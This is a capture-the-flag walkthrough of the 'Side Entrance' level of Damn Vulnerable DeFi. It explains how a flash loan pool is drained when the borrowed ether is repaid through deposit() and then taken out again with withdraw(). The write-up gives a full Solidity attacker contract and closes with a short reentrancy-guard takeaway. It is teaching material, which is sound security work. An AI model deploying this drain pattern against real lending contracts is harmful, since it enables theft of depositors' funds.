

# Level 4 : Side entrance

Key point here is to really understand the flow of execution in `flashLoan()`.

In this contract the first thing to understand is that it is designed for 2 kind of people : 

- Suppliers will use the `deposit()` and `withdraw()` functions
- “FlashLoaners” will use this function to get ethereum , do things with it and then pay it back

The vulnerability here is in the accounting method of the mapping between address and balances. There is no check whether the amount to withdraw are ethers from a suppliers or from a “flashLoaners” that payed back a flashloans, in both way balance is updated.

There is one check in `flashLoan()` : `require(address(*this*).balance >= balanceBefore, "Flash loan hasn't been paid back");` however `address(this).balance` which represent the balance of the pool contract **can be updated using the `deposit()` function** and using the `deposit()` function, our balance will be updated, making it possible to withdraw the fund just payed back 🙂

 

The only thing to do is a `flashLoan()` of all ethers available, receive it within`execute{value:amount}()`, give them back using `deposit()` within the `execute()` function so that our balance as a depositer will be updated and then we can easily call the `withdraw()` function to withdraw our fresh deposit.

Flow of execution will be like that



source : [https://vyorkin.org/posts/ctf-walkthrough-damn-vulnerable-defi-4-side-entrance/](https://vyorkin.org/posts/ctf-walkthrough-damn-vulnerable-defi-4-side-entrance/)

One thing I forgot to write is that we need a contract to interact with the pool : 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import './SideEntranceLenderPool.sol';

contract AttackSideEntrance{
  SideEntranceLenderPool pool;
  address payable owner;
  constructor(address pool_) {
    pool=SideEntranceLenderPool(pool_);
    owner=payable(msg.sender);
  }
  function attackSideEntrance(uint256 amount_) public {
    require(msg.sender == owner);
    pool.flashLoan(amount_);
    pool.withdraw();
  }
  function execute() external payable {
    require(msg.sender == address(pool));
    pool.deposit{value:address(this).balance}();
  }
  receive() external payable{
    owner.transfer(address(this).balance);
  }
}
```

then implement it in our `side-entrance.challenge.js` : 

## Key Security Takeaways

- Use the `ReentrancyGuard` from OpenZeppelin to fix the **[cross-function reentrancy](https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/#cross-function-reentrancy)**.